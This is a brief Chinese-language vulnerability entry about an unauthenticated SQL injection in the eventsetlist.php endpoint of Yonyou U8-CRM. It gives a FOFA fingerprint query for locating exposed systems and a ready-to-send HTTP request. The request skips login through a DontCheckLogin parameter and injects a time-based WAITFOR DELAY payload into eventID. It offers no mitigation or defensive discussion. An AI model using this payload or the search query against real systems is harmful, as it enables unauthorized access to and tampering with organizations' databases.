 # 用友U8-CRM系统接口eventseteventsetlist.php存在SQL注入

用友U8-CRM系统接口eventseteventsetlist.php存在SQL注入，未经身份验证的攻击者通过漏洞执行任意SQL语句。

## fofa

```javascript
body="用友U8CRM" || body="/js/tfunction.js" || title="用友U8CRM"
```

## poc

```javascript
GET /eventset/eventsetlist.php?DontCheckLogin=1&action=stop&stopFlag=1&eventID=1;WAITFOR+DELAY+'0:0:5'-- HTTP/1.1
Host: 
Cookie: PHPSESSID=bgsesstimeout-;
```
